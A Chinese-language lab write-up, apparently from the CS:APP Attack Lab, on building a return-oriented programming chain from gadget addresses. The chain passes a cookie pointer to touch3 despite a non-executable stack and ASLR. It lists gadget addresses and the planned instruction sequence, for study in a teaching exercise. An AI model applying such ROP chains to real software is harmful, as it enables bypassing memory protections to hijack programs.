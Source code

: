 ### Phase 5:

#### 实验目标：

在有堆栈不可执行以及ASLR的情况下实现Phase3的目标。以前传入cookie的指针是硬编码栈上地址弄的,这里显然不行了。找的范围从start_farm到mid_farm,扩展为start_farm到end_farm了。

首先清晰的是只能把cookie写到最后,因为如果写到touch3函数地址上面，会被污染。

* 观察到farm中发现有这样一条地址传送指令可以用：

```
4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
```

感觉可以通过这种方式将(%rsp+x)的地址传送到%rax。先在getdets farm里搜索一下可用资源。

* 搜索一下能用的popq指令：

```
popq %rax ; (58) 地址:4019ab

popq %rsp ;这个感觉没用，但这个后面接的这个可能有用
movl %eax,%edx ; (89 c2 90 c3) 地址：4019dd
```
* 搜索一下能用的movq指令：

```
movq %rax,%rdi ; (48 89 c7) 地址：4019a2

movq %rsp,%rax ;(48 89 e0) 地址：401a06
```

* 因为围绕`lea    (%rdi,%rsi,1),%rax`指令,所以再找一下能改变%rsi的指令:

```
movl %ecx,%esi ;(89 ce) 地址:401a13
```

* 找可以改变%ecx的指令的用有哪些指令：

```
movl %edx,%ecx; (89 d1) 地址：401a34
```

感觉差不多够了，不够再找，试着拼接一下，拼接的指令执行逻辑大概是:

```

popq %rax ; 这是栈里面放的是偏移

movl %eax,%edx 

movl %edx,%ecx

movl %ecx,%esi  ;就为了从%eax导到%esi

movq %rsp,%rax  

movq %rax,%rdi 

lea    (%rdi,%rsi,1),%rax 

movq %rax,%rdi
ret ;这里返回到touch3
```
